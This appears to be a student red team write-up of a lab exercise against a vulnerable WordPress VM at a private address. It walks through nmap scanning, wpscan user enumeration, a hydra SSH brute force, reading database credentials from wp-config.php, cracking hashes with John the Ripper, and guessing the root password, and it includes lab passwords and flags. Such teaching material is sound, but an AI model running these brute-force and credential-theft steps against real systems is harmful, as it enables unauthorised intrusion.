

Red Team: Summary of Operations

Table of Contents

	- Exposed Services
	- Critical Vulnerabilities
	- Exploitation

Exposed Services
Nmap scan results for each machine reveal the below services and OS details:
Command: $ nmap -sV 192.168.1.110

This scan identifies the services below as potential points of entry:

**Target 1**
1. Port 22/TCP		Open		SSH
2. Port 80/TCP		Open		HTTP
3. Port 111/TCP		Open		rcpbid
4. Port 139/TCP		Open		netbios-ssn
5. Port 445/TCP		Open		netbios-ssn

### Critical Vulnerabilites
The following vulnerabilities were identified on each target:

**Target 1**

1. User Enumeration (WordPress site)
2. Found the occurrence of simplistic usernames and weak passwords (Hydra Command)
3. Brute forced ssh to gain access in to the system.
4. Secure files are not hidden away.
5. Misconfiguration of User Privileges/ Privilege Escalation

### Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**

**flag1.txt:** {b9bbcb33e11b80be759c4e844862482d}

	- Exploit Used:
		- WPScan to enumerate users on the Target1 WordPress site.
		- Command:
			- $ wpscan --url 192.168.1.110/wordpress
			  $ wpscan --url 192.168.1.110 --enumerate -u
		

	- Targeting the user michael
		- Small manual Brute Force attack to guess/finds Michael's password.
		- First, the user's password is weak and obvious.
		- Second, for pratice, Hydra can be used to crack Michaels's password:
			- Command: hydra -l michael -P /usr/share/wordlists/rockyou.txt -vV 192.168.1.110 -t 4 ssh
		    
            	- 		

	- Capturing Flag1: SSH in as Michael, transvering through directories and files.
		- The first Flag was found in /var/www/html folder at root in services.html in a HTML comment below the footer.
		- Commands:
			- ssh michael@192.168.1.110
			- password: michael
			- cd /var/www/html
			- ls -l
			- nano services.html
			
		- [FLAG1 Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/flag1.png)
			
            	

**flag2.txt:** {fc3fd5Bdcdad9ab23facac6e9a365e581c33}

Exploit Used

	- The same exploit used to gain flag1.
	- Capturing Flag2: While in SSH in as Michael, Flag2 was also gained.
		- Once again, browsing through the files and directories, Flag2 can be found in /var/www next to the html folder where Flag1 was found. 
		- Commands:
			- ssh michael@192.168.1.110
			- password: michael
			- cd /var/www
			- ls -l
			- cat flag2.txt
		
		- [FLAG2 Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/flag2.png)

**flag3.txt:** {afc01ab56b50591e7dccf93122770cd23}

Exploit Used:
	- Same exploits to gain Flag1 and Flag2.
	- Capturing Flag3: Access the MYSQL database.
		- Discovering the wp-config.php and gaining access to the database credentials as the user Michael, MYSQL when used to explore the database.
	- Commands:
		- mysql -u root -p 'R@v3nSecurity' 
		- show databases;
		- use wordpress;
		- select * from wp_posts;
		
       	- [FLAG3 Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/flag3.png)

**flag4.txt:** {715dea6c055b9fe3337544932F2941ce}

Exploit Used:
	- Unsalted password hash and use of the privilege escalation with Python.
	- Capture Flag4: Gained user credentials, cracked password with John the Ripper and used Python to gain root privileges.
		- Once gaining access to the database credentials as the user Michael from the wp-config.php file, the next step was to lift the username and password hasses using MYSQL.
		- The credentials were located in the wp_users table in the wordpress database. The usernames and passwords were copied and saved on the Kali machine in a file call wp_hashes.txt.
		- Commands: 
			- mysql -u root -p'R@v3nSecurity' 
			- show databases;
			- use wordpress;
			- show tables;
			- select * from users;

	- On the Kali machine the wp_hashes.txt ran against John the Ripper to crack the hashes.
	- Command:
		- john wp_hashes.txt
		
        [John Command Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/steven-password-2.png)
        

	- Once the user Steven's password hash was crached, the next step was to SSH in the server as Steven. Under the user Steven, privileges will first be checked, and escalated to root by guessing common root passwords.
	- Commands:
		- ssh steven@192.168.1.110
		- password: pink:84
		- sudo -l
		- su root
		- password: toor
		- find /-iname flag*
		- cat /root/flag4.txt
		
        - [FLAG4 Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/flag4.png)
